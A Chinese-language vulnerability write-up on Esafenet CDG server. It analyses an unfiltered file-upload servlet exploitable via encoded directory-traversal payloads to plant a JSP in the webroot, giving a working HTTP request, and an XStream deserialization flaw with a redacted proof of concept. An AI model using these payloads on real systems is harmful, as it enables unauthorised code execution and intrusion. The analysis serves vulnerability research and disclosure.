


亿赛通漏洞浅析

- - -

# 亿赛通漏洞浅析

## 文件上传

某次拿到亿赛通安装包进行安装后，在web.xml文件中搜索upload相关的servlet  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101195125-fc28d9e6-78ac-1.png)  
发现其中UploadFileFromClientServiceForClient存在文件上传漏洞，跟进源代码进行分析  
很明显存在文件写入操作  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101195428-69671bee-78ad-1.png)  
关注文件名是否可控，是否对文件后缀有限制  
向上查看代码，发现fileName的获取步骤是：遍历var12数组，当其以fileName开头时，取其=号后面的值，相当于构造如下：fileName=1.jsp，即可使得fileName为1.jsp  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101195921-17feea7e-78ae-1.png)  
接着向上查看代码，可知var12这个数组由value\_decode字符串对&字符进行切片得到  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101200658-2864aab0-78af-1.png)  
而value\_decode对&字符进行切片前，经过了CDGUtil.decode与substring  
req.getQueryString()就是获取查询字符串，例如：客户端发送?a=b&c=d&e=f，通过request.getQueryString()得到的就是a=b&c=d&e=f  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101200737-3fbd6c88-78af-1.png)  
从上述分析可以得知，并没有对fileName有什么过滤操作，fileName的值从value\_decode取得，构造payload：  
?a=ODJNOLIDLOLPEJHCOIFJJDIJOLLFJLDE，ODJNOLIDLOLPEJHCOIFJJDIJOLLFJLDE为fileName=1.jsp&1经过CDGUtil.encode加密  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101202428-99f546ce-78b1-1.png)  
发送后，发现其文件不是写在web目录下，而是在C:\\fileDB\\uploaded\\store目录  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101202217-4bca5e1c-78b1-1.png)  
因为安装包安装的路径都是一样的，所以我们可以通过目录穿越将其上传到web目录下：../../../Program Files (x86)/ESAFENET/CDocGuard Server/tomcat64/webapps/ROOT/1.jsp  
利用如下payload：?a=AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJCGBIFBGJGJBMCM  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101202721-00fc584e-78b2-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101202730-064eac66-78b2-1.png)

```plain
POST /CDGServer3/UploadFileFromClientServiceForClient?a=AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJCGBIFBGJGJBMCM HTTP/1.1
Host: 192.168.37.130:8443
Connection: close
Content-Length: 26

<%out.println("123213");%>
```

## xstream反序列化

亿赛通中使用到了xstream组件，而xstream 1.4.9是存在反序列化漏洞的  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101203127-93ca3510-78b2-1.png)  
GetValidateLoginUserService中调用了xstream组件，fromXML会反序列化xml格式内容，并且这里未对输入做校验  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101203536-28531a9e-78b3-1.png)  
这里传入的xml内容也是会做解密处理的，所以我们传入的内容也要先用CDGUtil.encode进行加密  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101203617-4074f6a6-78b3-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101203650-5491e6da-78b3-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231102144737-b5b5f7e2-794b-1.jpg)

```plain
POST /CDGServer3/xxxxxxxxxxxx HTTP/1.1
Host: 192.168.37.130:8443
Connection: close
ttt: whoami
Content-Length: 29724

poc
```
